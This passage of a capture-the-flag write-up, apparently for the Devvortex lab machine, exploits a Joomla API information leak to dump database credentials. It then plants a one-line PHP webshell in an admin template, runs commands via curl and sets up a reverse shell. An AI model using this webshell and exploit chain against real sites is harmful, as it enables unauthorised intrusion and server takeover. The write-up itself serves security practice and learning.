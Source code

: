 - Check the [Joomla 🦁](/notes/CMS/Joomla.md) note

```shell
sudo ruby exploit.rb http://dev.devvortex.htb/api/index.php/v1/config/application?public=true

Users

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

> We've got credentials to access Joomla!: `lewis:P4ntherg0t1n5r3c0n##`

![](Pasted%20image%2020241119155957.png)

Now we can execute a reverse shell (also check [Joomla 🦁](/notes/CMS/Joomla.md) note)

Basically, you can edit a template and add a webshell on it:

```php
<?php system($_GET['cmd']); ?>
```

![](Pasted%20image%2020241119160552.png)

Now execute a curl request:

```shell
curl -s http://dev.devvortex.htb/administrator/templates/atum/error.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

So you can now get a reverse shell (by changing the `error.php` content yo a php reverse shell -> check [Reverse shells 👾](/notes/reverse_shells.md)):

```shell
# Execute nc listener
# Then do a curl req
curl -s http://dev.devvortex.htb/administrator/templates/atum/error.php
```

> We've got a reverse shell :D
